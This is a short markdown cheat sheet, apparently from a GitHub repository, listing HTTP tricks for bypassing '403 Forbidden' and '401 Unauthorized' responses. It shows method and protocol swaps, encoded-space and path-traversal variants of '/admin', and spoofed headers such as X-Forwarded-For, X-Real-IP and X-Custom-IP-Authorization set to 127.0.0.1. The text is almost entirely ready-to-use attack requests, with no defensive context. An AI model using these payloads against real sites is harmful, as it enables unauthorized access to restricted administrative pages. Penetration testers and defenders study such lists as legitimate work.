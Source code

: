 # 403 Forbidden Bypass

### Change request method.
```
POST -> GET
GET -> POST
```

### Change Protocol
```
http -> https
https -> http
```

### Use space symbol.
```
GET /admin%20
GET /admin%09
```

### X-Rewrite-URL header
```
GET /index.html
X-Rewrite-URL: /admin
```
### Use Path Traversal
```
GET /%2e/admin
GET /admin/..;/
```
			
### X-Real-IP/X-Forwrded-For
```
GET /admin
X-Real-IP: 127.0.0.1
```
```
GET /admin
X-Forwarded-For: 127.0.0.1
```

### Other Techniques
target.com/secret -> ```403 Forbidden```

target.com/secret/ -> ```200 Ok```

target.com//secret// -> ```200 Ok```

target.com/./secret/./ -> ```200 Ok```

target.com/secret/* -> ```200 Ok```

target.com/. -> ```200 Ok```


# 401 Unauthorized Bypass

```
X-Custom-IP-Authorization: 127.0.0.1
X-Forwarded-Origin: 127.0.0.1
```
